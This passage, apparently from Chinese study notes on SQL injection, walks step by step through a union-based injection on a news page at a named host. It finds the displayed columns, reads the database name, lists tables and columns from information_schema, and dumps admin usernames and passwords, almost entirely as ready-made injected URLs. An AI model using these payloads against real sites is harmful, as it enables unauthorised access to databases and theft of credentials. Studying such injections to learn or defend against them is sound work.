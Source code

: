 4. 判断各个参数显示的位置:

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,3,4,5
   ```

5. 找一个可以显示较多内容的文本框填入查询参数,查询当前网站的库名:

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,database(),4,5
   ```

   得到当前库名为:double_fish

6. 根据库名在information_schema库查所有表

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema = "double_fish"
   ```

   得到如下表:

   ![image-20220906111638486](SQL注入.assets/image-20220906111638486.png)

7. 可以看出,t_admin表大概率是保存用户信息的表,优先查询t_admin表的字段和内容:

   1. 查字段:

      ```mysql
      http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_schema="double_fish" and table_name = "t_admin"
      ```

      得到如下字段,可以看出该表就是保存用户名和密码的表,直接梭哈该表:

      ![image-20220906112015185](SQL注入.assets/image-20220906112015185.png)

   2. 查询t_admin表所有数据

      ```mysql
      http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(username,"=",password),4,5 from t_admin
      ```

      得到如下结果:

      ![image-20220906112519612](SQL注入.assets/image-20220906112519612.png)
